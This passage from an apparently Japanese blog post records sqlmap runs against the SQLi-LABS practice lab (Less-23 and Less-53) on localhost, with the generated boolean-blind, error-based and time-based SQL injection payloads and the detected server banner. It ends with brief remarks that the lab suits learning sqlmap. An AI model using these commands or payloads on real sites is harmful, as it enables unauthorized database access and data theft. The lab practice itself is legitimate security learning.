 ### Less-23 (GET - Error based - strip comments)

<div class="md-code" style="width:100%">
```
$ python2.6 sqlmap.py -u "http://127.0.0.1/sqli-labs/Less-23/?id=1" --banner --dbms MySQL

---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 6234=6234 AND 'sZEB'='sZEB

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1' AND (SELECT 2226 FROM(SELECT COUNT(*),CONCAT(0x716b787671,(SELECT (ELT(2226=2226,1))),0x71707a6271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'sIMQ'='sIMQ

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: id=1' AND SLEEP(5) AND 'gHxA'='gHxA
---
```
</div>

### Less-53 (GET - Blind based - ORDER BY CLAUSE - String - stacked injection)

<div class="md-code" style="width:100%">
```
$ python2.6 sqlmap.py -u "http://127.0.0.1/sqli-labs/Less-53/?sort=0" --banner --dbms MySQL --level 2

---
Parameter: sort (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: sort=0' RLIKE (SELECT (CASE WHEN (1167=1167) THEN 0 ELSE 0x28 END)) AND 'uqmm'='uqmm

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: sort=0' AND (SELECT * FROM (SELECT(SLEEP(5)))VcHi) AND 'ISSZ'='ISSZ
---

（中略）

web server operating system: Linux CentOS 6.8
web application technology: PHP 5.4.36, Apache 2.2.15
back-end DBMS: MySQL >= 5.0.12
banner:    '5.1.73-log'
```
</div>

　「SQLi-LABS Page-4 (Challenges)」は回数制限ありのSQLiの問題が集まっているようでした。  
SQLi力のない私はそっとじ・・・。

　軽く「SQLI-LABS」をさわってみましたが、sqlmapを使うための学習にうってつけのツールでした。









